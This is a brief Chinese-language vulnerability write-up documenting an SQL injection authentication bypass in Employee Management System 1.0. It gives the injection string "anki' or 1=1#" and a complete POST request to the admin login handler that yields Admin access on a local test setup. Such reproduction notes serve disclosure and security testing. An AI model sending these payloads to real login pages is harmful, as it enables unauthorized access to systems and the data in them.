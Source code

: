# 员工管理系统 Employee Management System 1.0 身份验证绕过

# 员工管理系统 Employee Management System 1.0 身份验证绕过

## 漏洞描述

漏洞发现时间：2020-10-16

软件下载地址：https://www.sourcecodester.com/sites/default/files/download/razormist/employee-management-system.zip

验证环境：Windows 10 + xampp v3.2.4

参考链接：

- https://www.exploit-db.com/exploits/48882

## 漏洞复现

打开网址：

```
http://localhost:8081/Employee%20Management%20System/alogin.html
```

通过payload绕过验证：

```
anki' or 1=1#
```

发送请求：

```
POST /Employee%20Management%20System/process/aprocess.php HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/Employee%20Management%20System/alogin.html
Cookie: PHPSESSID=infdfigld4et4jndfgbn33kcsv
Upgrade-Insecure-Requests: 1

mailuid=anki%27+or+1%3D1%23&pwd=anki%27+or+1%3D1%23&login-submit=Login
```

将以Admin身份登录应用

